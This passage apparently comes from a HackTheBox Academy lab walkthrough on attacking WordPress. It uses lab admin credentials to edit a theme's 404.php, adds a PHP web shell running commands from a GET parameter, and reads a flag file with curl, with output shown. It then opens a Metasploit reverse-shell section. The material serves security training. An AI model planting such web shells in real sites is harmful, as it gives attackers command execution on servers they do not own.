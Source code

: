 The above code should allow us to execute commands via the `GET` parameter `cmd`. In this example, we modified the source code of the `404.php` page and added a new function called `system()`. This function will allow us to directly execute operating system commands by sending a `GET` request and appending the `cmd` parameter to the end of the URL after a question mark `?` and specifying an operating system command. The modified URL should look like this `404.php?cmd=id`.

We can validate that we have achieved RCE by entering the URL into the web browser or issuing the `cURL` request below. 

> [!question]
>  Use the credentials for the admin user [admin:sunshine1] and upload a webshell to your target. Once you have access to the target, obtain the contents of the "flag.txt" file in the home directory for the "wp-user" directory.

Log into the target WordPress site using the credentials from earlier, `admin:sunshine1`.

![](https://i.imgur.com/1qtyiEh.png)

Subsequently, students need to click on `Appearance` then on `Theme Editor`:

![](https://i.imgur.com/e7Zv00z.png)

Students then need to choose `Twenty Sixteen` theme and then click on `Select`:

![](https://i.imgur.com/hRUaxja.png)

Subsequently, students need to choose the `404 Template` page and add to it at the top a PHP web shell and then click on "Update File":

```php
system($_GET['cmd']);
```

![](https://i.imgur.com/GWNjE1H.png)

At last students need to utilize the web shell to fetch the contents of the flag file in the home directory for the `wp-user` directory:

```shell
curl -s http://STMIP:STMPO/wp-content/themes/twentysixteen/404.php?cmd=cat%20/home/wp-user/flag.txt
```

```shell-session
┌─[us-academy-1]─[10.10.14.135]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ curl -s http://46.101.28.14:31864/wp-content/themes/twentysixteen/404.php?cmd=cat%20/home/wp-user/flag.txt | grep "HTB"

HTB{rc3_By_d3s1gn}
```
# Attacking WordPress with Metasploit
## Automating WordPress Exploitation

We can use the `Metasploit Framework (MSF)` to obtain a reverse shell on the target automatically. This requires valid credentials for an account that has sufficient rights to create files on the webserver. 
